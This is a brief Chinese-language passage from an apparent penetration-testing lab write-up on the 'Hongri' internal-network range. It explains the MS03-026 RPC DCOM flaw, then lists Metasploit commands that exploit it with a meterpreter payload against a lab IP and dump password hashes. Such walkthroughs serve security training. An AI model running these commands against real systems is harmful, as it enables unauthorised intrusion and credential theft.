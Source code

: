 

**2.3 ms03-026漏洞利用**

```
漏洞实质上影响的是使用RPC的DCOM接口，此接口处理由客户端机器发送给服务器的DCOM对象激活请求(如UNC路径)。攻击者通过向目标发送畸形  RPC  DCOM请求来利用这些漏洞。成功利用此漏洞可以以本地系统权限执行任意指令。攻击者可以在系统上执行任意操作 ，如安装程序、查看或更改、删除数据或创建系统管理员权限的帐户
```

```
search ms03-026

use   exploit/windows/dcerpc/ms03_026_dcom

set payload  windows/meterpreter/bind_tcp

set rhost  192.168.52.141
```



漏洞利用成功，管道打开

![image-20210809175300540](红日靶场内网渗透.assets/image-20210809175300540.png)



#### 凭证获取

如下获取用户账号和密码hash值

```
hashdump
或者
run  post/windows/gather/smart_hashdump
```
